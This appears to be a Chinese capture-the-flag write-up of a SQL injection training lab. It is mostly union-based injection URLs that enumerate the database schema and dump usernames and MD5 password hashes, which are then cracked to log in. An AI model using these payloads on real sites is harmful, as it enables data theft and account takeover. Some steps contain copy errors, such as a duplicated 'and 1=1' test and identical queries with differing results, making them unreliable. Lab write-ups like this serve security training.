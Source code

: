 # SQL 手工注入漏洞测试（MySQL数据库）

> **题目信息：**
> **背景介绍**
> 安全工程师"墨者"最近在练习SQL手工注入漏洞，自己刚搭建好一个靶场环境Nginx+PHP+MySQL，PHP代码对客户端提交的参数未做任何过滤。尽情的练习SQL手工注入吧
> **实训目标**
> 1.掌握SQL注入原理；
> 2.了解手工注入的方法；
> 3.了解MySQL的数据结构；
> 4.了解字符串的MD5加解密
> **解题方向**
> 手工进行SQL注入测试，获取管理密码登录。

# 一、进入靶场
本题要求为**SQL注入**，那么我们就先去寻找注入点而不是直接爆破用户名和密码。
![靶场](http://blog-img-figure.oss-cn-chengdu.aliyuncs.com/img/20200507211537307.png)

# 二、在公告处发现注入点
![发现注入点](http://blog-img-figure.oss-cn-chengdu.aliyuncs.com/img/20200507211957381.png)
# 三、确定注入格式
1. http://219.153.49.228:41317/new_list.php?id=1 and 1=1 >> **不报错，未过滤关键字**
2. http://219.153.49.228:41317/new_list.php?id=1 and 1=1 >> **报错，发现注入点**
# 四、确定字段数
1. `http://219.153.49.228:41317/new_list.php?id=1order by 1` >> **不报错**
2. `http://219.153.49.228:41317/new_list.php?id=1order by 2` >> **不报错**
3. `http://219.153.49.228:41317/new_list.php?id=1order by 3` >> **不报错**
4. `http://219.153.49.228:41317/new_list.php?id=1order by 4` >> **不报错**
5. `http://219.153.49.228:41317/new_list.php?id=1order by 5` >> **报错**

**确定字段数为4**
# 五、确定显示字段
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,2,3,4`
![确定](http://blog-img-figure.oss-cn-chengdu.aliyuncs.com/img/20200507213250756.png)
**确定显示字段为2和3。**
# 六、查询数据库名字和版本
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,database(),version(),4`
![在这里插入图片描述](http://blog-img-figure.oss-cn-chengdu.aliyuncs.com/img/20200507214804213.png)
**确定数据库名字为 *mozhe_Discuz_StormGroup* ，数据库版本为 *5.7.22-0ubuntu0.16.04.1* 。**
# 七、查询其它数据库名称
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 0,1` >> **information_schema**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 1,1` >> **mozhe_Discuz_StormGroup**
3. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 2,1` >> **mysql**
4. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 3,1` >> **performance_schema**
5. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,schema_name,3,4 from information_schema.schemata limit 4,1` >> **sys**
# 八、查询数据库表名
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 0,1`>>**StormGroup_member**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup' limit 1,1`>>**notice**
**根据表名我们可以发现，*StormGroup_member*这张表放的是用户信息，*notice*这张表中放的是公告信息**
# 九、查询表中字段名
1. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**id, int(11)**
2. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**name, varchar(20)**
3. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**password, varchar(255)**
4. `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,column_name,column_type,4 from information_schema.columns where table_name='StormGroup_member' limit 0,1`>>**status, int(11)**
# 十、查询用户信息
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,concat(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1`>>**mozhe-356f589a7df439f6f744ff19bb8092c0-0**
- `http://219.153.49.228:41317/new_list.php?id=-1 union select 1,concat(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 1,1`>>**mozhe-e2391899875e16f7013173cd17524303-1**
**查询出了两条记录，发现密码长度都为32位，猜测应该是md5加密的，将密码放进[解密网站](https://www.cmd5.com/)进行解密，使用用户名和密码登陆网站**
# 十一、登陆成功

**下方就是我们需要提交的key了**![在这里插入图片描述](http://blog-img-figure.oss-cn-chengdu.aliyuncs.com/img/20200507223622466.png)
